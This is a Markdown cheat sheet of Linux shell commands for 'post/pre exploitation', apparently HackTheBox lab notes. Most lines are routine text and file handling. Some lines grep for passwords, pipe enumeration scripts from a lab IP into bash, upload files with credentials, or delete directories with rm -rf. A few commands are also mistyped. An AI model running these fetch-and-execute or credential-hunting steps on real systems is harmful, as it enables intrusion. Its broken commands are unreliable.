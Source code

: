 ### Post \ Pre Exploitation

- [ls](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#ls)
- [Grep](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#grep)
- [AWK](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#awk)
- [Curl](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#curl)
- [wget](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#wget)
- [Compression and decompression of files](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#compressing-and-decompressing)
- [Find](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#find)
- [xclip](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#xclip)
- [Misc](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#misc)
- [bashLoops](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#bash-loops)
- [sed](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#sed)
- [tr](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#tr)
- [tail](#tail)
- [watch](#watch)


#### ls
```bash
# list files
ls

# list hidden files
ls -la

# list files with human readable size
la -sh
```

#### Grep
```bash
# search for the files that contains the phrase password in it
grep -ir password
grep -iRl "password" ./

# exclude multiple strings
grep -Ev 'exclude1 | exclude 2' filename.txt

# obtain only lines starting with small letters
grep -v '[A-Z]' users.txt
```


#### AWK
```bash
# simple grab based on spaces, damnedsec cyberwr3nch hackthebox
awk '{print $1}' # output damnedsec

# multiple field seperator, obtain things only with in the delimeter
# contents of the file-> user: cyberwr3nch: damnedsec;123
awk -F: '{print $3}' users.txt # output damnedsec;123

# contents of users.txt -> user:[BLACKFIELD764430] rid:[0x451], 
awk -F"[][]" '{print $2}' users.txt # output: BLACKFIELD764430

# obtain contents from a specific line
# where x is the line number	
awk 'NR==x {print $1}'

# print lines form a specific line to the end of the file
awk 'NR>x' users.txt

# omit all the blank lines in a file
awk 'NF'
```

#### Curl
```bash
# make http, http2, http3 requests with curl
curl -vv http://10.10.10.10
curl --http2 http://10.10.10.10
curl --http3 http://10.10.10.10

# obtain only the response header
curl --head http://10.10.10.10.

# upload files via curl
curl --user "{user}:{creds}" --upload-file=<file> "http://10.10.10.10/upload_location"

# curl save the output
curl http://10.10.10.10 -o index.html

# pipe the requesting files
curl http://10.10.10.10:<port_no>:lin(peas\|enum).sh | bash
```

#### Wget
```bash
# download files with wget
wget http://10.10.10.10/xxx.sh

# run files without downloading
wget -O - http://10.10.10.11:<port_no>:lin(peas\|enum).sh
```

#### SED
```bash
# search and replace strings
cat username.txt | sed s/{stringToBeChanged}/{replacementString}/g

# replace the last ',' with a null character
cat usernames.txt | sed s/,$//

# add \x after every two characters, the .. denotes the two characters, \x&, adds \x and & doesnt delete the characters that were before
cat hexpayload.txt | sed 's/../\\x&/g'
```

#### tr
```bash
# translate new lines '\n' into ','; used in HTB nmap
cat usernames.txt | tr '\n' ','
```


#### Find
```bash
# find with file names
find . -name user.txt 

# find and execute
find . -name '*.txt' -exec cat "{}" \;

# {} is used as the place holder and tells the follwing to as an argument
# find directories with the specified name and execute the command
find . -type d -name uploads -exec rm -rf "{}" ';'

# find and copy files 
find -name 'file.ext' -exec cp "{}" <copy_path>  \;

# find the recently modified files
# maxdepth - sub directories, newermt - timestamp
find . -maxdepth 1 -newermt "2016-12-06"

# find files with specific string in it
find . -type f -print0 | xargs -0 -e grep -niH -e "your common word to search"
```

#### Compressing and Decompressing
```bash
# zip a folder with its contents
zip -r -9 html.zip /var/www/html

# unzip a zip file
unzip html.zip

# tar a file
tar cvf html.tar html/

# extract a .tar file
tar -xvf html.tar 

# tar.gz a folder
tar cvfz html.tar.gz html/

# unzip a *.tar.gz file
tar -xzvf html.tar.gz

# unzip rar file
unrar x html.rar
```

#### Xclip
```bash
# installation
sudo apt-get install xclip

# copying contents from a file and pasting it with 'mouse scroll button'
cat user.txt | xclip

# copying file and using cttl + v for pasting
cat user.txt | xclip -sel clip
cat user.txt | xclip -selection clipboard

# copy the contents in the primary clipboard
cat user.txt | xclip -selection primary
```

#### Misc
```bash
# monitor, repeat the same command for a period of time
# ls -la every 1 sec on a dir
watch -n 1 'ls -la'
```

#### Bash Loops
```bash
# for loop that adds payload += in each line of the file
for i in $(cat hexdata); do echo "payload += b'$i'"; done
```

#### Tail <a name='tail'></a>
```bash
# view only last line of the file
tail -1 <file>

# view last 7 lines from the file
tail -n7 <file>

# omit the line specified before
tail +7 <file> # displays without the first seven lines of the file

# update the contents of the file and provide the output
tail -f <file>
```

#### Watch <a name='watch'></a>
```bash
# repeat executing the command
watch <command>
 
# execute the commands in specific intervals
watch -n <seconds> <command>

# highlight the differences in each execution ## Thanks copycookie.com 
watch -n <seconds> -d <command> 

# exit on changes
watch -g <command>
```
